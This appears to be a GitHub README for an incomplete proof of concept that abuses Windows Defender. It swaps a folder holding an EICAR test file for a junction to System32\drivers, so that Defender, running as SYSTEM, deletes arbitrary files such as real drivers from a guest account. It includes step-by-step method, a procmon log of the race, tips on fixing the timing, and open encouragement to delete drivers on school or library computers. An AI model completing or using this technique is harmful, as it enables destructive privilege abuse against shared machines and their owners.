 (This potentially works from a guest ACC, if you just want to gain arbitrary delete to bypass UAC, there are much easier ways!)

NOTE: THIS POC IS INCOMPLETE, THERE IS STILL A TIMING ISSUE TO BE FIXED

The purpose of this PoC is to gain arbitrary deletion rights as system (basically make windows defender delete whatever we want).
This would work from a guest account (meaning you could delete drivers on school/library computers! :D).

Furthermore, deleting arbitrary dlls can lead to hijacking issues, or files in windows\temp and programdata, which can then be recreated by the user to potentially hijack control flow of critical programs.


Current steps in the PoC:

1. Create a file called 3ware.sys (driver we are targeting) in a folder called eicar on the desktop. The content of our file is an EICAR test string.
2. Wait 5 seconds (obviously this part is what needs to be changed), delete our fake 3ware.sys file, and turn our folder into a junction to c:\windows\system32\drivers

In procmon (filter on 3ware.sys), you can clearly see that defender is unaware that the file has been deleted and its folder turned into a junction.
It begins checking the actual driver!

You should be able to delete the real driver, if you time the switch right before it tries to delete our fake file with eicar string.
The problem with switching too early is that it will read the real driver, and since its obviously not a virus, it won't try to delete it.

Normally you would use an OPLOCK to get the timing right, but since defender already places an OPLOCK on our file, we can't use that for timing. You need to figure out something else!

Example output in procmon:


```
7:59:52.6718391 AM	MsMpEng.exe	2124	FileSystemControl	C:\Users\guest1\Desktop\eicar\3ware.sys	OPLOCK HANDLE CLOSED	Control: FSCTL_REQUEST_OPLOCK
7:59:52.6719846 AM	MsMpEng.exe	2124	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Data/List Directory, Read Attributes, Synchronize, Disposition: Open, Options: Synchronous IO Non-Alert, Non-Directory File, Complete If Oplocked, Attributes: N, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:52.6720228 AM	MsMpEng.exe	2124	ReadFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Offset: 0, Length: 68, Priority: Normal
7:59:52.6720763 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:52.6720932 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1107248 AM	lpe.exe	6684	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Attributes, Delete, Disposition: Open, Options: Non-Directory File, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:56.1108337 AM	lpe.exe	6684	QueryAttributeTagFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Attributes: A, ReparseTag: 0x0
7:59:56.1108719 AM	lpe.exe	6684	SetDispositionInformationFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Delete: True
7:59:56.1108934 AM	lpe.exe	6684	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1128859 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1130086 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
7:59:56.1132937 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1136595 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

You can clearly see the switch to our real driver :) (I had already deleted 3ware.sys with another PoC, which is why it says not found, can't be bothered to set-up a clean vm!)

ps: If anyone did read my blogpost yesterday, my memory is pretty bad, I made a wrong assumption in there, defender does not open junctions if you have a program write into a junction. My bad! But this also works ;).
